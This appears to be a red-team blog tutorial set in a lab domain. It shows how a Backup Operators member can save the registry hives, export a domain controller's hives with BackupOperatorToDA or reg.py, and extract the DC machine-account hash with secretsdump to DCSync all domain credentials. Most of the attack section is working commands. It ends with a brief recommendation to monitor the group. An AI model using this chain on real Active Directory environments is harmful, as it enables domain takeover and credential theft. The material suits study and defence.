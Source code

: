```yaml
---
title: "Domain Privilege Escalation Backup Operators Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Domain Privilege Escalation
  - Active Directory
  - RedTeam
---
```


# Windows Built-in Groups 

Windows Built-in Groups are predefined groups that come preconfigured with Windows operating systems. These groups serve specific purposes and are used for managing permissions, access, and security within the Windows environment. Some common built-in groups include:

1. Administrators: Members of this group have full control over the computer. They can perform administrative tasks, install software, modify system settings, and manage other users and groups.
2. Users: Regular users who have limited privileges on the system. They can use most software and change system settings that do not affect other users or the security of the computer.
3. Guests: Limited access accounts for users who require temporary or occasional access to the system. Guest accounts typically have very restricted permissions.
4. Backup Operators: As mentioned earlier, members of this group can perform backup and restore operations on the system, including backing up and restoring files and directories.
5. Power Users: A legacy group in older versions of Windows, members of this group had more privileges than regular users but fewer than administrators. This group is deprecated in newer versions of Windows.
6. Remote Desktop Users: Members of this group are allowed to log in to the system remotely using Remote Desktop Protocol (RDP).
7. Network Configuration Operators: Members of this group have permissions to perform network configuration tasks on the computer, such as modifying network settings and installing network drivers.
These built-in groups provide a convenient way to manage access and permissions on Windows systems, allowing administrators to assign appropriate rights to users and groups based on their roles and responsibilities.
## Backup Operators
The Backup Operators group is a built-in group in Microsoft Windows operating systems. This group is designed to grant users limited privileges to perform backup and restore operations on the system, including the ability to back up and restore files and directories, regardless of their permissions. Members of the Backup Operators group can perform tasks such as backing up the entire system, backing up files and directories, and restoring files and directories. This group is useful in environments where individuals need to perform backup and restore tasks without having full administrative privileges on the system.

### Lab Configuration 
#### Setting Up Privilege on Domain Controller


[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-1.png)](https://r00tven0m.github.io/)

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**

We are going to add a user Serena.Alla to the active directory security group for the demonstration. To do that, go to **“users**” select “**Serena.Alla**” and click on “**properties**”.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-2.png)](https://r00tven0m.github.io/)

That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-3.png)](https://r00tven0m.github.io/)
A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **Backup Operators’** group then click ok.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-4.png)](https://r00tven0m.github.io/)

We can verify whether a user is added to the backups operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user Serena.Alla to backups operators’ group.

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-5.png)](https://r00tven0m.github.io/)



## Enumeration With PowerView.ps1

#### Enumerating AD Users

```powershell
Get-DomainUser -Identity Serena.Alla -Domain cbank.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,acco
```
[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-6.png)](https://r00tven0m.github.io/)
#### Enumerating AD Groups

```powershell
Get-DomainGroupMember -Identity 'Backup Operators'
OR 
Get-DomainGroupMember -Identity 'Backup Operators' | select GroupName,MemberName,MemberDomain,GroupDistinguishedName
```


[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-7.png)](https://r00tven0m.github.io/)
#### Backing up SAM and SYSTEM,security Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`
```powershell
reg save hklm\sam c:\Temp\sam.sav
reg save hklm\system C:\Users\serena.alla\Documents\system.sav
reg save hklm\security C:\Users\serena.alla\Documents\security.sav
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-8.png)](https://r00tven0m.github.io/)
### secretsdump.py 

```bash
impacket-secretsdump LOCAL -system system.sav -sam sam.sav
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-9.png)](https://r00tven0m.github.io/)
but we get hashes local users we need get all hash DC

#### Attacking a Domain Controller  with [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

The [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) is a proof of concept written in C++ which can target domain controllers using an account which is part of the Backup Operators group. The proof of concept can export the registry hives into C:\temp_ path or into a UNC share.

```powershell
net use G: \\192.168.56.1\test /u:test test
.\BackupOperatorToDA-x64.exe -t \\dc01.cbank.local -o G:\\
```
[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-11.png)](https://r00tven0m.github.io/)
#### Aonther Way Attacking a Domain Controller  with  [reg.py](https://github.com/horizon3ai/backup_dc_registry/blob/main/reg.py "reg.py")


```bash
python3 reg.py Serena.Alla:'Password123'@192.168.56.100 backup -p '\\192.168.56.1\test'
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-12.png)](https://r00tven0m.github.io/)
```bash
impacket-secretsdump LOCAL -system SYSTEM -sam SAM -security SECURITY
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-13.png)](https://r00tven0m.github.io/)
Nice We Can get hash MACHINE ACCOUNT `DC01$` 
Now the NTLM hash for the Domain Controller has been extracted.
Now we will provide the NT hash to the secretsdump tool along with the name of the Domain Controller to extract all users present in the Active Directory environment with their respective hashes via a file. The machine account credentials could then be used to DCSync domain credentials.

```bash
impacket-secretsdump cbank.local/'dc01$'@dc01.cbank.local -hashes :c8d2d1f95b533d6326baf3cccdb81d10
```

[![Image Alt Text](/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-14.png)](https://r00tven0m.github.io/)

# In Conclusion

Backup Operators is a privileged group, and should be monitored and protected in a similar manner to Enterprise/Domain administrator groups.

`We have reached the end of the article.`
